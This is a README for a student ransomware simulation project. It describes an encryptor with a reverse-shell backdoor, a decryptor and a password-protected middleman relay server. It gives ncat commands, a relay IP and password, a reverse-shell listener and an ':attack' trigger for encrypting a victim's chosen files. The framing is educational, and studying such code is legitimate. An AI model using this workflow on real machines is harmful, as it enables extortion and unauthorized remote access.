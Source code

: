 # School Project: Basic Ransomware Simulation

## Project Overview

This project consists of few Python scripts that work together to simulate the behavior of real-life ransomware:

### `notaransomware.py`:

This is the main ransomware code. It contains functions to find and encrypt files using a key generated from the `cryptography.fernet` Python module. Before encryption, the script establishes a connection with the middleman server to retrieve the LAN IP of the target device to set up the backdoor (more on the backdoor later).

### `decrypt.py`:

This file contains the code to decrypt files that have been encrypted by the ransomware. The script retrieves the encryption key from "thekey.key" and applies it to the encrypted files, restoring them to their original form.

### `middleserver.py`:

This script acts as the middleman server. This script manages connections for two different sessions:

- Setting the local IP for the `notaransomware.py` script to give a reverse shell to (password protected).

- Providing the said IP to our ransomware.

That is to say that the middleman script will allow a connection from the attackers machine in order for said machine to advertise its local IP and another session, on the victim machine, for the ransomware to fetch said LAN IP.
It does not have to be a local IP though, any IP will work but LAN is more secure.

## Why a backdoor and why a middleman?

We have the backdoor, or reverse shell, in order for the attacker to examine the target in order to find the best files in which to hold ransom. Once the attacker has found the files to encrypt, he executes a command within the reverse shell (running within the `notaransomware.py` script) which will finalize the attack.

We have the middle man because the attackers IP might change but the middleman servers IP can stay constant.

## :warning: Word of warning :warning:

USE THIS PROJECT AT YOUR OWN RISK, THE PROJECT IS DESIGNED TO BE AS REAL TO REAL LIFE RANSOMWARE ATTACK AS IT CAN BE SO YOUR DATA IS YOUR RESPONSIBILITY.

I **ONLY** RECOMMEND RUNNING THESE SCRIPTS INSIDE A VIRTUAL MACHINE!!!

**NO ONE BUT YOU IS RESPONSIBLE FOR YOUR ACTIONS!**

## How To Run

To correctly execute these programs, you will need Python3 venv (virtual environment) and the `cryptography` package installed inside said venv.

To create a venv, first, remember that all these scripts are designed to work on windows.

Then open the microsoft store and download windows terminal for ease of use.

Next install git for windows in a new powershell admin window if you haven't already:

```ps1
winget install --id Git.Git -e --source winget
```

Once git is installed, open a new git bash windows inside windows terminal and type the following:

```bash
python3
```

This should open a window in the microsoft store where you can download python.
If you already have it installed however, it will launch the python interpreter.
To exit the interpreter:

```py
exit()
```

Next, inside the git bash session and inside the root directory of the project, create the venv:

```bash
python -m venv venv
```

We must source, again, inside the git bash session and in the root of the project, the venv activation file before we can work with the project:

```bash
source ./venv/Scripts/activate
```

Now, once we are inside a venv session, we can finally install the dependencies:

```bash
pip install cryptography
```

Finally, to start the simulation:

- On your middleman server, mines in the cloud, launch the middleman server with the command `python middleserver.py`.

> Of course, to do this, one must have the `middleserver.py` on said cloud server.

You will see the server spring to life, printing basic messages to let you know whats going on.

- On the attack machine, preferably inside the same LAN as the victim computer:

1. [Make sure you have netcat installed](https://nmap.org/download), ncat is bundle with nmap...
2. Assuming the attack machine is windows, run `ncat <ip> 55036` where `<ip>` is the ipv4 address of your middleman server.

This will connect to the middleman server but, assuming no errors show up, you will see no output.
This is by design but all you have to do is enter in the password and hit enter:

```
joelwiscool
```

Once you do this, you should see the following output:

```
$ ncat 175.45.180.103 55036
joelwiscool

[type :help for help]->
```

To set the LAN ip of the attack machine so the middleman server can advertise it to the victim computer:

```
$ ncat 175.45.180.103 55036
joelwiscool

[type :help for help]-> :ip 127.0.0.1
```

As you see, for my testing purposes, i am using the same machine for the victim and attack but you may change `127.0.0.1` to any IP you see fit.

3. Next, still on the attack machine remember, we must first exit out of the previous netcat session in which we set the LAN IP for our ransomware by hitting CTRL+c thats control and the letter c at the same time. After exiting the previous netcat session, open a new one, this new netcat session will be where our reverse shell appears:

```bash
ncat -lvnp 55038
```

This will instruct netcat to listen (`-l`), output verbosely (`-v`), idk (`-n`), and `-p` specifies the port.

You will use this netcat session once the ransomware opens a backdoor for us.

- Next, on your victim computer, run the ransomware with the command `python notaransomware.py <ip>` where ip is th ipv4 address of your middleman server.

The script immediately try connecting to the middleman server, if it fails to connect, it will retry and retry again.

Once it has connected to the middleman server, it will ask the middleman server for the attackers ip.
Once received the attackers IP, the ransomware script will open a backdoor to the attacker.

The attacker can then go on looking for some juicy files within the system to encrypt (your job).
Once you found your juicy files, run `:attack` inside the backdoor (again, the netcat seesion).

4. If you want to decrypt files, run `python decrypt.py`

Ensure the scripts run on machines within the same network.

Remember to be responsible when running these scripts! Do not attempt to run the ransomware on any computer to which you do not have explicit permission.

## Understanding the Code

Take the time to go through the Python scripts and understand how they work together. This can be very beneficial in improving your understanding of real-world cyber threats and how to protect yourself (or a network you manage) from them.

Ransomware is an unfortunate reality of the modern world, and understanding how it works is an important part of any cybersecurity education. This project is a simplified example of a real-world ransomware attack, but the concepts here – secure keys, file encryption, network communication – are directly applicable to advanced threats. Be sure to read and understand the comments in the code, as they are there to help you understand what's happening!

## Contributing

This being a school project, collaboration is welcomed! If you have any ideas on how to improve the simulation or the readability of the code, don't hesitate to make changes and submit a pull request.
